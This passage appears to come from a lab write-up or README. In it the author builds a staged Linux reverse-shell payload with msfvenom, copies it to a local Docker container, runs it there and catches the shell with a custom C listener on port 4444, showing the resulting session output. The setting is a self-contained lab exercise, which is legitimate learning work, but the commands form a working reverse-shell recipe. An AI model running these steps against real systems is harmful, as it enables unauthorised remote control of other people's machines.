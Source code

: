 Using the C file `listner.c`, we can now send the payload and interact with the shell:
```
$gcc -o listner listner.c

$./listner 
Listening on port 4444...
```

In the terminal that will run Docker, run the following commands:
```
$docker build -t msfvenom_target $(pwd) && docker run -d msfvenom_target
$msfvenom -p linux/x64/shell/reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf > staged_reverse_shell
$scp staged_reverse_shell john@172.17.0.2:~/staged_reverse_shell
$ssh john@172.17.0.2

$ ./staged_reverse_shell
```

You can see that you get a reverse shell in the first console:
```
$./listner 
Listening on port 4444...
Connection established
Payload sent
id
uid=1000(john) gid=1000(john) groups=1000(john)
```

I tried to use `netcat` to send the payload and interact with the shell, but, I do not know why, the shell is correctly executed, but `netcat` do not want to send more data to the socket.